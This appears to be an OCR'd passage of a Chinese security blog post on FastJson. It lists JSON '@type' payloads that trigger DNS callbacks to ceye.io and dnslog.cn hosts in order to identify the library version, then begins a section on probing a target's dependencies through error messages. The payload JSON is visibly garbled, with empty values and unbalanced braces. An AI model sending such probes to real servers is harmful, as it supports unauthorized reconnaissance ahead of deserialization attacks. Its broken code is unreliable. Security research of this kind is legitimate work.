 ```json
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "aaa.xxxx.ceye.io"
  }
}
]


//  <=1.2.68
[
  {
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "bbb.n41tma.ceye.io"
  }
}
]


//  <=1.2.80 收到一个dns请求，1.2.83 收到两个dns请求
[
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "x": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "ccc.4fhgzj.dnslog.cn"
  }
}
},
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "message": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "ddd.4fhgzj.dnslog.cn"
  }
}
}
]
```
# FastJson引入依赖检测
其实主要是针对于黑盒情况下，在确定FastJson具体版本后，下一步就是对应payload探测该环境存在的一些依赖，而不是一味的盲打。
主要需要依赖能够回显FastJson的报错的探测，虽然网上流传的有DNSLOG探测，但我实在是没有复现成功，后面再看吧。
## Character转换报错
 测试比较通用的方法：利用Character转换报错